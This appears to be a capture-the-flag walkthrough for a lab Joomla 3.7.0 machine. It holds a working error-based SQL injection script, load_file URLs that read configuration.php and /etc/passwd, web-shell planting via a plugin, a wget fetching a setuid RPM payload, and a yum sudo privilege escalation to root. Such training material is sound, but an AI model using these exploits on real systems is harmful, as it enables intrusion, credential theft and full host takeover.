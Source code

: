 # dailybugle
So we have a joomla over here.

Let's check the version and will google for exploits.

http://10.10.33.156/language/en-GB/en-GB.xml
```
<version>3.7.0</version>
```
We found https://www.exploit-db.com/exploits/42033 sql injection (Error based, much better to use).

So we exploited SQLi error based easily (Used substring because ExtractValue can show only 32 chars).
```
import requests
import re

url = "http://10.10.33.156/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=(extractvalue(1,concat(0x3a,(select [SQL]))))"

def makeRequest(query):
	global url
	exploitURL = url.replace('[SQL]',query)
	r = requests.get(exploitURL)
	result = re.search(r'<title>(.*)<\/title>',r.text)
	return result.group(0)

print(makeRequest('substring((select password from %23__users limit 0,1), 30, 31)'))
```
Brutforced a password using john, not a big deal. 

Got a password for /administrator/: SomeUser:batman987 :) (this is not real password and not real user, you need to do it yourself)

<b>Way 1 (Lazy a not C00lH4CK3R way)</b>
	Now we need to add WSO shell to our plugin:
  
  I downloaded random plugin from joomla off site, added wso.php to plugin directory, added <filename>wso.php</filename> to <files> into [plugin_name].xml
  
	http://10.10.33.156/plugins/system/[plugin_name]/wso.php
  
  and just reading configuration.php and trying to use mysql password for jjameson user (we already checked /home/ directory before)

<b>Way 2:</b>
Just use SQLI to obtain MySQL password:
```
	http://10.10.33.156/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=(extractvalue(1,concat(0x3a,(select%20substring(load_file(0x2f7661722f7777772f68746d6c2f636f6e66696775726174696f6e2e706870),480,31)))))
  ```
  So we have our mysql password. 
  We cant connect to mysql because its binded to 127.0.0.1, but we still can read /etc/passwd:
  
	http://10.10.33.156/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=(extractvalue(1,concat(0x3a,(select%20substring(load_file(0x2f6574632f706173737764),870,31)))))

	:nah Jameson:/home/jjameson:/bin
  
  Trying to use mysql password and we got ssh access. 
 
<b>Gaining root privileges</b>

So, we have tip about yum, lets explore.
sudo -l:
```
User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum
```
So we have root privileges to yum which creates root setUID executable, lets try to make sudo yum installocal rootbackdor
We already have rootbackdoor compiled and ready to use ( https://lsdsecurity.com/2019/01/more-linux-privilege-escalation-yum-rpm-dnf-nopasswd-rpm-payloads/ )
```
wget https://gist.githubusercontent.com/neoice/797777cb0832f596a70b6cba7bbbcc4f/raw/f3f94e105c23d2c01706736d9cd729dd555e9c53/setuid-pop.rpm
```
(Actually wont work because tryhack VM is closed to internet)
So we have setuid-pop.rpm, lets extract it to binary 
```
cat setuid-pop.rpm|base64 -d|gzip -d > exploit.rpm

sudo yum localinstall exploit.rpm

...
Installed:
  sploit.x86_64 0:1.0-1                                                         

Complete!

cd /usr/local/bin

ls -la
total 12
drwxr-xr-x.  2 root root   17 Mar 27 05:53 .
drwxr-xr-x. 12 root root  131 Dec 14 13:57 ..
-rwsr-sr-x   1 root root 8744 Jan 18  2019 pop
```

So lets just run it
```
[jjameson@dailybugle bin]$ ./pop
[root@dailybugle bin]# id
uid=0(root) gid=0(root) groups=0(root),1000(jjameson)
```
Thats it. Grabbing all flags from jjameson and root and we are good to go.
